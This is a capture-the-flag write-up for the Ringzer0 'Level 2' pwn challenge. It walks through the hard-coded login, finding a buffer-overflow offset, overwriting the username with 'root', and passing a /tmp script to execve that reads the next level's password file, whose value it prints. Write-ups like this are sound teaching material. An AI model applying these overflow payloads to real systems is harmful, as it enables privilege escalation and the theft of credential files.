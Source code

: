 # Level 2 Ringzer0 Pwn challenges


From the code we can see that it requires  a username and password to bypass the first authentication
That we need to do compulsorily so let's get started with that
```text
level2@lxc-pwn-x86:/levels$ python -c 'print "nobody\nKsdkjkk32avsh\n"'| ./level2
Username: Password: Command: Okay Mr. nobody. Dropping priviledges though.
```
Now that we are authenticating, and we know there is a buffer overflow, let's find the offset

```text
level2@lxc-pwn-x86:/levels$ python -c 'print "nobody\nKsdkjkk32avsh\n" + "A"*100' | ./level2
Username: Password: Command: Okay Mr. AAAA. Dropping priviledges though.
```
At offset 100 we are overwriting the name of Mr. Nobody. We need to pass root here though in order to do command exec so let's get on with that.

```text
level2@lxc-pwn-x86:/levels$ python -c 'print "nobody\nKsdkjkk32avsh\n" + "A"*96+"root"' | ./level2
Username: Password: Command: Good job!
```
Great! Now we just have to write the command!

Since we are calling an execve(), we can't really pass anything. The /bin/bash and all the obvious payloads aren't passing through. After some nudges, I came accross an article saying you can execve the contents of a file to run a script
So I made a new folder in tmp, and came accross a new problem while trying to write a script: no new line and no shabang is possible in echo
After some time spent on stackoverflow, I was able to write the script
```text
level2@lxc-pwn-x86:/levels$ cat << EOF > /tmp/hdd2666/passwd.sh
> #!/bin/bash
> cat /home/level3/.pass
> echo "Done!"
> 
> EOF
level2@lxc-pwn-x86:/levels$ cat /tmp/hdd2666/passwd.sh
#!/bin/bash
cat /home/level3/.pass
echo "Done!"
```
Brilliant! Now all I have to do is 
```text
chmod +x /tmp/hdd2666/passwd.sh
```

And now send the payload!
```text
level2@lxc-pwn-x86:/levels$ python -c 'print "nobody\nKsdkjkk32avsh\n" + "/tmp/hdd2666/passwd.sh\x00" + "A"*73+"root\x00"' | ./level2
Username: Password: Command: Good job!
b130hOOfGftXUfmRZlgD
Done!
```

GG bois, the password to the next level is 
```text
b130hOOfGftXUfmRZlgD
```

